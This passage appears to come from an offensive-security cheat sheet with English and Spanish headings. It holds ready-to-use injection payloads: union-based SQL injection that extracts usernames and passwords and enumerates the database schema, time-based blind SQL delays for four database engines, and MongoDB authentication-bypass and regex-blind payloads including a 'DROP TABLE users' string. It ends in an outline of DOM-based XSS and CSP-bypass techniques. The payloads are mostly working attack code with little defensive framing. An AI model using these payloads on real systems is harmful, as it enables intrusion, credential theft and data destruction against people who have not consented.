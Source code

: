 **Union-based SQL Injection:**
```sql
-- Determine number of columns
' ORDER BY 1-- (continue incrementing until error)
' UNION SELECT NULL-- (add NULLs until no error)

-- Extract data
' UNION SELECT username,password,email FROM users--

-- Database enumeration
' UNION SELECT schema_name,NULL FROM information_schema.schemata--
' UNION SELECT table_name,NULL FROM information_schema.tables--
' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='users'--
```

**Time-based Blind SQL Injection:**
```sql
-- MySQL time delay
' AND IF(1=1,SLEEP(5),0)--

-- MSSQL time delay
'; IF (1=1) WAITFOR DELAY '00:00:05'--

-- PostgreSQL time delay
'; SELECT CASE WHEN (1=1) THEN pg_sleep(5) ELSE pg_sleep(0) END--

-- Oracle time delay
' AND 1=(CASE WHEN 1=1 THEN (SELECT COUNT(*) FROM ALL_USERS T1,ALL_USERS T2) ELSE 0 END)--
```

#### NoSQL Injection Techniques
```javascript
// MongoDB injection examples
// Authentication bypass
{"$where": "this.username == 'admin' && this.password.match(/.*/)"}

// JavaScript injection in MongoDB
{"username": "admin", "password": {"$where": "sleep(5000) || true"}}

// Blind NoSQL injection
{"username": "admin", "password": {"$regex": "^a"}}

// CouchDB injection
{"selector": {"$where": "function() { return true; }"}}

// Cassandra CQL injection
"SELECT * FROM users WHERE username = '" + input + "'"
// Payload: admin'; DROP TABLE users; --
```

### Cross-Site Scripting (XSS) - Técnicas Avanzadas

#### XSS Attack Vectors Modernos
```
Advanced XSS Techniques:
├── DOM-based XSS Exploitation
│   ├── document.location manipulation
│   ├── document.referrer exploitation
│   ├── window.name abuse
│   ├── postMessage vulnerabilities
│   └── History API manipulation
├── Content Security Policy Bypasses
│   ├── JSONP callback abuse
│   ├── Angular template injection
│   ├── Inline event handler abuse
```
